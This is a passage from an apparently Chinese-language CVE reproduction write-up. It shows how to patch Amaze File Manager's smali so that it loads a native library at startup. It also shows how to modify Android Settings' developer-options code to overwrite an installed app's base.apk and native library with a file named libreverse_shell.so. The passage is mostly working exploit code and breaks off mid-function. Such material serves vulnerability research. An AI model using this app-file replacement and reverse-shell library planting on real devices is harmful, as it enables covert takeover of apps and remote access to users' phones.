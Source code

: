 我们将 so 加载放到第一个 activity 里面，修改如下：

```java
.class public Lcom/amaze/filemanager/ui/activities/MainActivity;
.super Lcom/amaze/filemanager/ui/activities/superclasses/PermissionsActivity;
.source "MainActivity.java"

.method static constructor <clinit>()V
    .locals 1
    const-string v0, "rootoperations" # 我们添加
    invoke-static {v0}, Ljava/lang/System;->loadLibrary(Ljava/lang/String;)V # 我们添加

```

修改完后用 "apktool b" 重新打包并签名，用于后续使用

#### Settings 的修改

我们在开发者选项中增加了修改替换的逻辑，这样打开开发者选项就能触发，将要修改的 apk 和 so 放到 settings 的 files 目录下， 方便操作：

```java

package com.android.settings.development;
... ...
public class DevelopmentSettingsDashboardFragment extends RestrictedDashboardFragment
        implements SwitchBar.OnSwitchChangeListener, OemUnlockDialogHost, AdbDialogHost,
        AdbClearKeysDialogHost, LogPersistDialogHost,
        BluetoothA2dpHwOffloadRebootDialog.OnA2dpHwDialogConfirmedListener,
        AbstractBluetoothPreferenceController.Callback {
... ...

    public void onActivityCreated(Bundle icicle) {
        super.onActivityCreated(icicle);
        // Apply page-level restrictions
        setIfOnlyAvailableForAdmins(true);
        Log.d("CVE-TEST", "[+]begin replace");
        try {
            String path = SystemProperties.get("sys.target.path"); // 获取目标 APP 路径
            if (TextUtils.isEmpty(path)) {
                Log.d("CVE-TEST", "[-]can not get path from 'sys.target.path'");
            } else {
                File rootPath = new File(path);
                File sourceBase = new File(getActivity().getFilesDir(), "base.apk");
                File targetBase = new File( rootPath, "base.apk");
                copyFile(sourceBase, targetBase);
                Log.d("CVE-TEST", "[+]replace file: " + targetBase.getAbsolutePath());
                File sourceLib = new File(getActivity().getFilesDir(), "libreverse_shell.so");
                File targetLib = new File(rootPath,"lib/x86_64/librootoperations.so");
                copyFile(sourceLib, targetLib);
                Log.d("CVE-TEST", "[+]replace file: " + targetLib.getAbsolutePath());
                Log.d("CVE-TEST", "[+]replace done");
            }

        } catch (Exception e) {
        }
    ... ...
    }

}

    private void copyFile(File source, File  target) {
        try {
            java.io.FileInputStream fosfrom = new java.io.FileInputStream(source);
            java.io.FileOutputStream fosto = new java.io.FileOutputStream(target);
            byte bt[] = new byte[1024];
            int num;
```